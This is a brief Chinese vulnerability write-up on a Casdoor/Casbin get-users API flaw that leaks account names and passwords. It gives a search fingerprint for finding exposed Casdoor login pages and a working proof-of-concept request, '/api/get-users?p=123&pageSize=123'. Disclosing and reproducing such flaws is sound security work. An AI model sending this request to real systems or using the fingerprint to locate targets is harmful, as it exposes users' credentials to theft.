 # Casbin get-users 账号密码泄漏漏洞

# Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

```
Casbin
```

## 网络测绘

```
title="Casdoor"
```

## 漏洞复现

登录页面

![image-20220524143206718](/images/202205241432780.png)

验证POC

```
/api/get-users?p=123&pageSize=123
```

![image-20220524143215583](/images/202205241432624.png)

